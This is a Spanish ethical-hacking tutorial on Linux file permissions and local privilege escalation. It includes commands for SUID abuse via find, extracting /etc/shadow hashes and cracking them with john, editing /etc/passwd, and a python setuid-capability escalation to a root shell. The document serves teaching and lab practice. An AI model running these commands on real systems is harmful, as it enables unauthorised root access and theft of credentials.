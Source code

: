 ```yaml
---
description: >-
  Veremos como leer los permisos de un fichero y como encontrar permisos para
  realizar la explotación.
---
```


# 🔐 Permisos y explotación

![](https://raw.githubusercontent.com/w0lfst/Apuntes-Hacking-Etico/main/assets/images/permisos.png)

{% hint style="info" %}
`X` puede tener dos significados, en caso de que sea una fichero significa que tienes permiso para ejecutarlo y si es un directorio significa que puedes entrar.&#x20;
{% endhint %}

## Permisos formato decimal

| rwx | r-x | r-x |
| --- | --- | --- |
| 7   | 5   | 5   |

* 7 = 1+2+4
* 5 = 1+4
* 5 = 1+4

La posición se cuenta desde la derecha, cada letra seria tendría los siguientes números:

* x = 1
* w = 2
* r  =4

{% hint style="info" %}
Todo esta convertido de binario a decimal. Para saber como realizar la conversión mira el siguiente punto.
{% endhint %}

### ¿Cómo convertir de binario a decimal?

| r-x | r-- | -w- |
| --- | --- | --- |
| 101 | 100 | 010 |
| 5   | 4   | 2   |

* En el primer ejemplo (r-x) tendríamos que contar la posición desde la derecha, seria así:
  * 0 = x
  * 1 = -
  * 2 = r
* Solo operamos con las posiciones que tengan un 1, es decir, con la posición 0 y 2.
* A continuación elevamos 2 a cada posición:
  * 2^0 + 2^2 = 1 + 4 = 5
  * 2^2 = 4
  * 2^1 = 2

## Atributos de ficheros.

***

El uso del comando está restringido naturalmente al usuario root y en algunos casos al propietario del fichero.

En el siguiente ejemplo vemos como evitar que el propio usuario borre un fichero:

```bash
chattr +i -V fichero.txt
```

* `+i` Añade flag que impide borrar el fichero incluido el usuario **root**.
* `-V` Muestra todo lo que realiza el comando.

{% hint style="info" %}
[Clic aquí para ver el manual de chattr](https://man7.org/linux/man-pages/man1/chattr.1.html)
{% endhint %}

Si queremos ver los atributos que tiene un fichero utilizamos el siguiente comando:

```bash
lsattr fichero.txt
```

## Permisos SUID

Los permisos SUID son permisos de acceso que pueden asignarse a archivos o directorios. Son utilizados principalmente para permitir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea específica.

Si un fichero tiene activado el bit **Setuid** se identifica con una `s` de la siguiente forma:

```
w0lfst@h4cknet:~$ ls -l /usr/bin/passwd
-rwsr-xr–x 1 root root 27920 ago 15 22:45 /usr/bin/passwd
```

Esta propiedad es necesaria para que los usuarios normales puedan realizar tareas que requieran privilegios más altos que los que dispone un usuario común.&#x20;

### Ejemplo de explotación

1. Asignamos el permiso setuid, por ejemplo, el comando **find** es 755, con `chmod` añadimos un 4 al permiso del archivo, quedaría así:

```bash
chmod 4755 /usr/bin/find
```

Ahora buscaríamos en [GTFOBins](https://gtfobins.github.io/) el comando que tiene ese permiso, en este caso, el comando find.

GTFOBins nos dice que ejecutemos el siguiente comando para obtener una sh:

```bash
find . -exec /bin/sh -p \; -quit
```

Así conseguimos acceso root gracias a que el comando find tenia asignado un permiso setuid.

### ¿Cómo lo hacemos si no podemos asignar permisos suid?

Para buscar permisos suid en la maquina victima utilizaremos la herramienta find de la siguiente manera:&#x20;

```bash
find \-perm -4000  2>/dev/null 
```

{% hint style="info" %}
`2>/dev/null` se utiliza para evitar que salgan errores por la terminal, como no tenemos acceso a todos los ficheros de la maquina saldrían muchos avisos de `Permision denied` y de esta forma lo evitamos.
{% endhint %}

Buscar archivos con permisos de escritura:

```bash
find \-writable 2>/dev/null 
```

## Ejemplos ataque:

### Permiso de lectura:

Si tenemos permiso para ver el archivo shadows podremos ver las contraseñas de los usuarios hasheadas en un formato sha-512.

{% hint style="info" %}
Podemos ver el tipo de hash que utiliza nuestra distribucin de linux con el siguiente comando: `cat /etc/login.defs | grep "ENCRYPT_METHOD"`
{% endhint %}

* Desencriptaremos las contraseñas por fuerza bruta, por ejemplo con el diccionario rockyou.
* Exportamos el hash:

```bash
cat /etc/shadow | grep "user" > hash
```

* Crackeamos:

```bash
john --wordlist=/usr/share/wordlists/rockyou hash 
```

* Vemos la contraseña:

```bash
john --show hash
```

### Permisos de escritura:

Si tenemos permisos para escribir en el `/etc/passwd` haremos lo siguiente:

* Nos creamos una contraseña:

```bash
openssl nueva-contraseña
```

1. Veremos un hash y lo copiamos.
2. Con `hash` y `hashid` podemos saber en que formato esta hecho.
3. Modificamos el `/etc/passwd` y ponemos el hash que hemos generado para así loguearnos como ese usuario con la contraseña creada anteriormente.

## Capabilities

Asignaremos un capabilite para realizar la prueba:

```bash
setcap cap_setuid+ep /usr/bin/python3.9
```

En este caso estamos asignando una capabilitie de tipo setuid, podemos ver mas tipos [aqui](https://wiki.gentoo.org/wiki/Hardened/Overview\_of\_POSIX\_capabilities).

Para obtener las capabilities que tenemos asignadas actualmente:

```bash
cd /
getcap -r / 2>/dev/null
```

En este caso encontraremos una capabilitie de python tipo `cap_setuid+ep`.\
Aprovecharemos esta capabilitie para lanzarnos una bash con privilegios de root:

```bash
python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
